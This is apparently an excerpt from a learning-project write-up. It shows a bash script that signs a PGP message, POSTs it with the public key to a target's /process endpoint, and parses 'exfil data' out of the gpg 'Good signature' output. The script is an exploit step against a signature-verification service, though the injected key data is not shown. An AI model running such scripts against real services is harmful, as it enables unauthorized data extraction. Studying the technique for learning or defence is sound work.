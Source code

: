 ```bash
#log "PUBKEY:\n$(cat ${PUBKEY})\n"
#log "PRIVATEKEY:\n$(cat ${PRIVATEKEY})\n"

# encode some sort of message with private key
SIGN="${PWD}/pgp-pysuite/sign.py"
MSG=$(python3 ${SIGN} -c ${PUBKEY} -k ${PRIVATEKEY} -p password -m 'benign message' \
    | awk '/.*BEGIN PGP SIGNED MESSAGE.*/,/.*END PGP SIGNATURE.*/'
)
log "MSG:\n ${MSG}"

# send it to target
result=$(curl -s -ik -X POST \
    "https://${TARGET}/process" \
    --data-urlencode "signed_text=${MSG}" \
    --data-urlencode "public_key=$(cat ${PUBKEY})"\
)

log "result:\n${result}"

# recover exfil data
regex_begin='^.*GOODSIG [[:upper:][:digit:]]{16} '
regex_end='gpg: Good signature'
awk "/${regex_begin}/ { f = 1 } /${regex_end}/ { f = 0 } f" <(echo -n "${result}") \
    | sed -r "s/${regex_begin}//" \
    | sed 's/<.*>.*//'

```

>[!note]
>Since this script has dubious future utility, the `-u` flag is not strictly necessary.  Again, this was just a learning project. 